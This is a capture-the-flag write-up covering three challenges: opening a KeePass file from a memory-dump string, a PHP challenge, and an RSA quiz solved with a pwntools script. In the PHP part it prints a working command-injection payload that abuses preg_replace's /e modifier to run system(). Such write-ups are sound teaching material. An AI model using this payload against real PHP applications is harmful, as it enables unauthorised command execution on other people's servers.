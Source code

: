 ```
>>> cat file.None.0xfffffa8010d88d90.dat
mqDb*N6*(mAk3W)=
>>> mv file.None.0xfffffa8010d88d90.dat tor.kdbx
```
In order to read the .kdbx you need to use a special program , I am using MacPass(since i am using a mac) and as password use ```mqDb*N6*(mAk3W)=```
![tor](1.png)
Flag proof :
```bash
ctf{6034a8f96c257e8cfda0c92447033faeeb28b21bb0510b6fd3a1a31343d0f646}
```
### substitute(medium)
![torrrr](2.png)
Well , we have a php chall , so let's read the code :
we see that it requires 2 vars : vector,replace  
Let's add them and see what happens
![hekator](3.png)
So  preg_replace() , hmmm  preg_replace() is vuln to RCE 
https://medium.com/@roshancp/command-execution-preg-replace-php-function-exploit-62d6f746bda4
also https://isharaabeythissa.medium.com/command-injection-preg-replace-php-function-exploit-fdf987f767df
![hekator](4.png)
full payload ?
```bash
replace=system(%27cat%20here_we_dont_have_flag/flag.txt%27);&vector=/Admin/e
```
flag proof :
```bash
CTF{92b435bcd2f70aa18c38cee7749583d0adf178b2507222cf1c49ec95bd39054c}
```
### RSA_QUIZ (medium)
Now to explain this one is gonna take a while so here is my script(PS is lazy) :
```python
#Hikari's code
#!/usr/bin/env python3
from pwn import *
from Crypto.Util.number import inverse

n=616571
e=3
plaintext=1337

p = 963760406398143099635821645271
q = 652843489670187712976171493587

answers = ['shamir', str(eval('19*3739')), str(eval('675663679375703//29523773')), str(eval('pow(plaintext, e, n)')), str(eval('(p-1)*(q-1)')), '307128003403317747267180880276778243646877508627728107750933', '1333333333333333333333333337', '151278525444064658069879866884270452252861617143516500870512', '2097258740241773022137051374446964']

ct = 572595362828191547472857717126029502965119335350497403975777
e = 65537
phi = (p-1)*(q-1)
d = inverse(e, phi)
m = pow(ct, d, p*q)

i = 0
r = remote("35.198.90.23", 30147)s
r.recvuntil("Let's start with something simple.\n")
r.recv()
r.sendline(answers[i])
```